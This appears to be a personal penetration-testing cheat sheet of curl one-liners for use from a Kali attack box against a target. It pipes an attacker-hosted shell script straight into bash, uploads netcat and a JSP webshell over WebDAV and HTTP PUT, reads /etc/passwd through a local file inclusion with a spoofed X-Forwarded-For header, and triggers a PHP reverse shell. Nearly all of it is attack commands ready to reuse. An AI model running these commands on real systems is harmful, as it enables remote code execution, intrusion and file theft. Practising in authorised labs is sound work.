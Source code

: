 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Download and execute
```bash - target
curl http://$KALI/shelly.sh | bash
```

#### Save to file
```bash - target
curl http://$KALI/shelly.sh -o shelly.sh
```

#### Headers
```bash - kali
curl -I http://$TARGET/filemanager/
```

#### Upload file
```bash - kali
curl --user 'user:password' -T nc64.exe http://$TARGET/webdav/nc64.exe
```

```bash - kali
curl -X PUT http://$TARGET:PORT/shelly.jsp -d 2- < shelly.jsp
```
  
#### LFI example with custom header
```bash - kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```

#### html2text
```bash - kali
curl http://$TARGET:8080/ | html2text
```

#### Credentials
```bash - kali
curl --user $USER:$PASSWORD $TARGET
```

#### Webdav trigger webshell
```bash - kali
curl http://$TARGET/webdav/php-reverse-shell.php -u $USER:$PASSWORD
```
#### Edit Method
```bash - kali
curl -siX POST -H 'Content-Length: 0' http://$TARGET:80/running-proccesses
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
